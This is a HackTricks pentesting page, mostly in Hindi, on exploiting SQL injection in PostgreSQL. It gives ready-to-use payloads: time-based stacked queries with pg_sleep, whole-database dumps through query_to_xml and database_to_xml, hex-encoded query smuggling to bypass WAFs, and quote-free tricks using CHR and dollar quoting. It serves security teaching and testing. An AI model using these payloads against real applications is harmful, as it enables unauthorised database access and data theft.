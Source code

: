 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**यह पृष्ठ विभिन्न तकनीकों को समझाने का लक्ष्य रखता है जो आपको एक पोस्टग्रेएसक्यूएल डेटाबेस में पाए गए SQL इंजेक्शन का शोषण करने में मदद कर सकती हैं और उन तकनीकों को पूरा कर सकती हैं जो आप** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **पर पा सकते हैं।**

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

**PostgreSQL मॉड्यूल `dblink`** अन्य PostgreSQL उदाहरणों से कनेक्ट करने और TCP कनेक्शन निष्पादित करने की क्षमताएँ प्रदान करता है। ये सुविधाएँ, `COPY FROM` कार्यक्षमता के साथ मिलकर, विशेषाधिकार वृद्धि, पोर्ट स्कैनिंग, और NTLM चुनौती प्रतिक्रिया कैप्चर जैसी क्रियाओं को सक्षम बनाती हैं। इन हमलों को निष्पादित करने के विस्तृत तरीकों के लिए देखें कि [इन हमलों को कैसे करें](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)।

### **dblink और बड़े ऑब्जेक्ट्स का उपयोग करके डेटा निकासी का उदाहरण**

आप [**इस उदाहरण को पढ़ सकते हैं**](dblink-lo_import-data-exfiltration.md) यह देखने के लिए कि **कैसे बड़े ऑब्जेक्ट्स के अंदर डेटा लोड करें और फिर फ़ंक्शन `dblink_connect` के उपयोगकर्ता नाम के अंदर बड़े ऑब्जेक्ट्स की सामग्री को निकासी करें।**

## PostgreSQL हमले: पढ़ें/लिखें, RCE, प्रिवेस्क

देखें कि PostgreSQL से होस्ट को कैसे समझौता करें और विशेषाधिकार कैसे बढ़ाएं:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF बायपास

### PostgreSQL स्ट्रिंग फ़ंक्शन

स्ट्रिंग्स को मैनिपुलेट करना आपको **WAFs या अन्य प्रतिबंधों को बायपास करने में मदद कर सकता है।**\
[**इस पृष्ठ पर**](https://www.postgresqltutorial.com/postgresql-string-functions/)**आप कुछ उपयोगी स्ट्रिंग फ़ंक्शन पा सकते हैं।**

### स्टैक्ड क्वेरीज़

याद रखें कि PostgreSQL स्टैक्ड क्वेरीज़ का समर्थन करता है, लेकिन कई एप्लिकेशन एक त्रुटि फेंक देंगे यदि 2 प्रतिक्रियाएँ लौटाई जाती हैं जबकि केवल 1 की अपेक्षा की जाती है। लेकिन, आप अभी भी टाइम इंजेक्शन के माध्यम से स्टैक्ड क्वेरीज़ का दुरुपयोग कर सकते हैं:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML ट्रिक्स

**query\_to\_xml**

यह फ़ंक्शन केवल एक फ़ाइल में XML प्रारूप में सभी डेटा लौटाएगा। यदि आप केवल 1 पंक्ति में बहुत सारा डेटा डंप करना चाहते हैं, तो यह आदर्श है:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

यह फ़ंक्शन पूरे डेटाबेस को XML प्रारूप में केवल 1 पंक्ति में डंप करेगा (यदि डेटाबेस बहुत बड़ा है तो सावधान रहें क्योंकि आप इसे DoS कर सकते हैं या यहां तक कि अपने स्वयं के क्लाइंट को भी):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

यदि आप **क्वेरीज़** चला सकते हैं जो **एक स्ट्रिंग के अंदर** पास की जाती हैं (उदाहरण के लिए **`query_to_xml`** फ़ंक्शन का उपयोग करके)। **आप स्ट्रिंग को हेक्स के रूप में पास करने के लिए convert\_from का उपयोग कर सकते हैं और इस तरह फ़िल्टर को बायपास कर सकते हैं:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### निषिद्ध उद्धरण

यदि आप अपने पेलोड के लिए उद्धरण का उपयोग नहीं कर सकते हैं, तो आप इसे `CHR` के साथ बायपास कर सकते हैं बुनियादी धाराओं के लिए (_अक्षर संयोजन केवल बुनियादी प्रश्नों जैसे SELECT, INSERT, DELETE, आदि के लिए काम करता है। यह सभी SQL बयानों के लिए काम नहीं करता_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
या `$` के साथ। ये क्वेरी समान परिणाम लौटाती हैं:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमसे जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
